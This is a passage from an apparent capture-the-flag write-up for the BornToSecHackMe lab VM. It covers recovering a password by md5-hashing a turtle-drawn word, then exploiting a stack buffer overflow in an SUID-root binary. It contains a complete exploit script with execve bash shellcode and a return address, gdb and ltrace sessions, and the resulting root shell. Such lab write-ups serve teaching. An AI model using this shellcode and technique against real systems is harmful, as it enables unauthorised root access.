            if turn_direction == "gauche":
                t.left(degrees)
            elif turn_direction == "droite":
                t.right(degrees)
            continue

with open('input', 'r') as f:
    instructions = f.read()
execute_instructions(instructions)

turtle.done()
```

We get the following drawing by the turtle:



We can read the word `SLASH`

The hint from the end of the file tells us: ` Can you digest the message ?`

It is a direct reference to the md5 hashing algorithm `Message Digest 5`.

We can then get the password by hashing the word `SLASH` with md5.

```bash
echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e
```

We switch to the user zaz with the password `646da671ca01bb5d84dbb5fb2238dc8e`

## zaz's account

For the this last writeup, we now have access to zaz's home. And inside that, we find that there is in an executable there called `exploit_me` with an suid on user and group. And interesting ! It belongs to root and I'm the zaz group.



This means that when we execute this, it will be executed on behalf of root. So let's see what that program does by sending it to ghidra to figure it out. We get this very simple main :

```c
bool main(int ac,char **av)

{
  char buff [140];
  
  if (1 < ac) {
    strcpy(buff,av[1]);
    puts(buff);
  }
  return ac < 2;
}
```

It just copies the first argument to a 140 characters long buffer using `strcpy` and displays it on stdout using `puts`. And since strcpy will only stop when it encounters `\x00`, if the argument is longer than the buffer then it will overflow onto the stack.

For instance, here it crashes :
```text
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*144)')
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

So, we've found the vulnerability which is a stack based buffer overflow, and now, we have to exploit it.

Let's see if any flag that could make exploitation difficult using `checksec` :

```text
$> py -m checksec exploit_me
┏━━━━━━━━━━━━━┳━━━━━┳━━━━━━┳━━━━━━━━━┳━━━━━━━━┳━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━┓
┃ File        ┃ NX  ┃ PIE  ┃ Canary  ┃ Relro  ┃ RPATH  ┃ RUNPATH ┃ Symbols ┃ FORTIFY ┃ Fortified ┃ Fortifiable ┃ Fortify Score ┃
┡━━━━━━━━━━━━━╇━━━━━╇━━━━━━╇━━━━━━━━━╇━━━━━━━━╇━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━┩
│ exploit_me  │ No  │  No  │   No    │   No   │   No   │   No    │   Yes   │   No    │    No     │     No      │       0       │
└─────────────┴─────┴──────┴─────────┴────────┴────────┴─────────┴─────────┴─────────┴───────────┴─────────────┴───────────────┘
```

NX is disabled to the stack is executable, there is no Canary so we can directly overflow without triggering any segfault, no Relro so we can rewrite the Global Offset Table. In short, there is absolutely no security enabled on the binary's side. On the side of the OS too as ASLR is disabled as demonstrated by checking the content of `/proc/sys/`

```text
zaz@BornToSecHackMe:~$ cat /proc/sys/kernel/randomize_va_space
0
```

ASLR is basically so that the offset of the stack is randomized. This means that if we were to overwrite an address so that it points somewhere we want we wouldn't need to leak any address. We can just try using a debugger such as gdb and use that same offset.

### The plan

Since there is no security at all, there are multiple techniques but we'll use a basic exploitation technique which consists of overwriting the return instruction pointer (RIP) so that it points to an executable sections of the code that we control. To understand, what that is, we need to understand how functions are called and it is quite simple.

A function call is just a JUMP instruction with extra steps. Before, we "jump" to our function using CALL, our program needs to remember where it was in order to return there when the function is done. In order, to do that it uses a call stack which stores those adresses (as well as local variables and arguments) and it's convenient that it is a stack because the last address from the last function call will be accesible from a simple POP.

So when, we call a function 3 things happen :
- The program pushes the address that points to the next instruction onto the call stack (aswell as args and local vars).
- Then the program jumps to the function
- When the function is finished, it'll call RET which will pop the address and go back to where it was.

So our goal is just to rewrite the top of that stack so that when it calls RET, it actually points to the start of our buffer that'll contain our shellcode and it is executable.

TLDR :
- Write the shellcode
- Overwrite the RIP to point to that shellcode
- And enjoy the root access

### The exploit

In order to find the offset of the call stack of the RIP, we'll use GDB because it's installed on the victim's machine and we'll throw things until we see what sticks.

And we throw at it, 143 characters and yep what we're trying to overwrite is right after our buffer.
```text
(gdb) run $(python -c "print('a'*143)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/zaz/exploit_me $(python -c "print('a'*143)")
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00616161 in ?? ()
(gdb) bt
#0  0x00616161 in ?? ()
#1  0x00000002 in ?? ()
#2  0xbffff764 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```

So our payload easy peasy, it shoud look like this :
```text
SHELLCODE + PADDING + ADDRESS OF THE BUFFER
```

This script generates our payload which will be stored in a `payload` file :

```py
addr = b"\xbf\xff\xf8\x98"[::-1]
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
payload = shellcode + (140 - len(shellcode)) * b"\x90" + addr
with open("payload", "wb") as f :
    f.write(payload)
```

And we'll be able to exploit it by running the script like this :
```text
./exploit_me $(cat payload)
```

It won't work yet because the address of our buffer is not known but we can know it by simply throwing our payload at it (with an incorrect address) with ltrace.

It gives us this output :
```text
zaz@BornToSecHackMe:~$ python exploit.py 
zaz@BornToSecHackMe:~$ ./exploit_me^C
zaz@BornToSecHackMe:~$ ltrace ./exploit_me $(cat payload)
__libc_start_main(0x80483f4, 2, 0xbffff774, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff650, "j\013X\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341\315"...)          = 0xbffff650
puts("j\013X\231Rfh-p\211\341Rjhh/bash/bin\211\343RQS\211\341\315"...j
                                                                      X�Rfh-p��Rjhh/bash/bin��RQS��̀���������������������������������������������������������������������������������������������������������������
)                        = 145
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
zaz@BornToSecHackMe:~$ 
```

And from this, we know that, the destination argument (the buffer) of the call to strcpy is 0xbffff650.

And badabim badaboum, we modify the addr variable accordingly.
```py
addr = b"\xbf\xff\xf6\x50"[::-1]
```

And when we retry :
```text
zaz@BornToSecHackMe:~$ ./exploit_me $(cat payload)
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀�����������������������������������������������������������������������������������������������������������P���
bash-4.2# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
bash-4.2#
````

And voila ! We now can go to root's home and we find a README congratulating us.
```text
bash-4.2# cat README
CONGRATULATIONS !!!!
To be continued...
bash-4.2# 
```


